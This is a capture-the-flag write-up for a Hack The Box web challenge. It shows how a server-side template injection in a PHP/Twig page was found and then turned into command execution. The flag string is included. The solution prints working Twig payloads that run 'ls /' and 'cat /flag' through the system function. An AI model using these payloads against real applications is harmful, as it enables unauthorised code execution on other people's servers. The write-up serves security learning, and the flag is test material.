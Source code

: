 #baby bonechewercon (Web)

![date](https://img.shields.io/badge/date-05%2F03%2F2021-brightgreen)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)  
![blockchain category](https://img.shields.io/badge/difficulty-medium-yellow)
![hard dificulty](https://img.shields.io/badge/category-web-blue)

## Flag
``
HTB{b3nt_tw1g_t0_my_will!}
``

##Solution

Starting with reading the description of the challenge it notified us about SSTI feng shui, so it's probably a server side template injection vulnerability

![challinfo](1.png "Challenge Info")

Looking at the files we see PHP is used with Twig, which is a is a template engine for PHP. The web page provide us a form to register a name. Registering a name we get a greeting response with the value we passed to it.

![web1](2.png "web1")

So we start exploiting this vulnerability with a very simple payload, {{7*7}}, to check if it's going to evaluate so we have the following:
```
http://docker.hackthebox.eu:31119/?name={{7*7}}
```
And we get back 49! So it's vulnerable to SSTI.
![web2](3.png "web2")

Now we can get remote code execution and list the root folder with the following payload:

```
{{['ls /']|filter('system')}}
```

![web5](5.png "web5")

We see the flag file there so we just need to read it:
```
{{['cat /flag']|filter('system')}}
```
![web6](6.png "web6")
